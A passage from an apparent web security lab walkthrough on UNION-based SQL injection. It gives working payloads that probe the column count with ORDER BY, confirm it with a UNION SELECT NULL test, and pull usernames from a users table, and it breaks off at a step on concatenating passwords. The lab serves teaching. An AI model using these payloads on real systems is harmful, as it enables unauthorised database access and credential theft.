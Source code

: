 ```
?search=laptop' ORDER BY 1--
```

**What happens**: Orders results by the 1st column. Should work without errors.

![Order 1 Result](https://raw.githubusercontent.com/poridhiEng/lab-asset/384d7187ced110f790597c29edb3f78690286cd2/Security%20Lab%20Assets/Web%20Security%20Labs/SQLi/Lab%2006/images/order1result.png)

```
?search=laptop' ORDER BY 2--
```

**What happens**: Orders by 2nd column. Should work.

![Order 2 Result](https://raw.githubusercontent.com/poridhiEng/lab-asset/384d7187ced110f790597c29edb3f78690286cd2/Security%20Lab%20Assets/Web%20Security%20Labs/SQLi/Lab%2006/images/order2result.png)
```
?search=laptop' ORDER BY 3--
```

**What happens**: Tries to order by 3rd column. Should fail with error because there are only 2 columns.

![Order 3 Result](https://raw.githubusercontent.com/poridhiEng/lab-asset/384d7187ced110f790597c29edb3f78690286cd2/Security%20Lab%20Assets/Web%20Security%20Labs/SQLi/Lab%2006/images/order3result.png)

**Key Learning**: Only 2 columns exist, and only column 2 (name) is clearly visible.

#### Step 4: Confirm Column Count with UNION NULL Test
Once you know there are 2 columns, confirm with a NULL test:

```
?search=laptop' UNION SELECT NULL,NULL--
```

**Expected Result**: Should display normal products without errors, confirming 2 columns.

![Null Test Result](https://raw.githubusercontent.com/poridhiEng/lab-asset/384d7187ced110f790597c29edb3f78690286cd2/Security%20Lab%20Assets/Web%20Security%20Labs/SQLi/Lab%2006/images/nulltest.png)

### Phase 2: Single Value Extraction (The Problem)

#### Step 5: Attempt Single Value Extraction
Try extracting just usernames to see the limitation:

```
?search=laptop' UNION SELECT NULL,username FROM users--
```

**Result**: You can see usernames, but not passwords or emails.

![Username Only](https://raw.githubusercontent.com/poridhiEng/lab-asset/384d7187ced110f790597c29edb3f78690286cd2/Security%20Lab%20Assets/Web%20Security%20Labs/SQLi/Lab%2006/images/usernameonly.png)

**The Problem**: You want to see username AND password AND email, but you can only extract one field at a time in the visible column.

### Phase 3: Multiple Value Extraction (The Solution)

#### Step 6: Basic Concatenation - Username and Password
Combine username and password using concatenation:
